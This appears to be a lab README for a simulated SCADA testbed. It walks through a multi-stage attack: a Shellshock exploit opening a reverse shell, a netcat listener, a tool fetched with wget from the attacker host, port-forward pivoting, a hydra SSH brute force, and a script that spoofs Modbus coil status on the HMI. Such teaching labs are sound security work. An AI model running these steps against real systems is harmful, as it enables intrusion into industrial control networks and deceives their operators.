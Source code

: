 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device. Notably, all files and tools required to execute this attack are already included within the provided Docker container.

- Use the attacker node:
```bash
docker exec -ti Attacker-Node bash
```

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. 

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques. It is worth noting that the shell upgrade has already been performed. For those interested in understanding how to execute the shell upgrade, detailed guidance can be found [this link](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

- Establish a webserver:
```bash
python3 -m http.server
```
![Webserver](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/webserver.png "Figure: Webserver")

- Downloading the required tool:
```bash
wget http://10.0.1.100/port-forward.py
```
![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download-tool.png "Figure: Tool Download")

- Port Forwarding:
```bash
python port-forward.py 2222:10.0.1.77:22
```
![ Port Forwarding](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/port-forwarding.png "Figure: Port Forwarding")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

- SSH Bruteforce:
```bash
hydra -L user.txt -P pass.txt -t 6 ssh://10.0.1.66:2222
```
![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce-ssh.png "Figure: SSH Bruteforce")

- SSH Connection:
```bash
ssh -P 2222 admin@10.0.1.66
```
![SSH Access](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/ssh.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

- Copy the modification script to the I-Gateway:
```bash
scp -P 2222 coilModificationStealth.py admin@10.0.1.66:/home/admin/ #Attacker Node
```
- Execute the script on the I-Gateway:
```bash
python3 coilModificationStealth.py #I-Gateway
```

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: Shellshock Exploit")

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Shellshock Exploit")
